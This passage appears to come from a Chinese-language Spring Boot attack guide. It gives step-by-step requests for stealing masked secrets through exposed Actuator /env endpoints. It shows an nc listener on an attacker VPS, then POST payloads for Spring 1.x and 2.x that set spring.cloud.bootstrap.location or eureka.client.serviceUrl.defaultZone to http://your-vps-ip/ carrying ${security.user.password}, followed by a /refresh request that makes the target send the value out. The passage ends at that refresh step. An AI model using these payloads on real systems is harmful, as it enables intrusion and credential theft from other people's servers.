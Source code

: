 GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```php
nc -lvk 80
```

##### 步骤三： 触发对外 http 请求

- `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}
```

spring 2.x

```php
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}
```

- `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}
```

spring 2.x

```php
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}
```

##### 步骤四： 刷新配置

spring 1.x

```php
POST /refresh
Content-Type: application/x-www-form-urlencoded
```
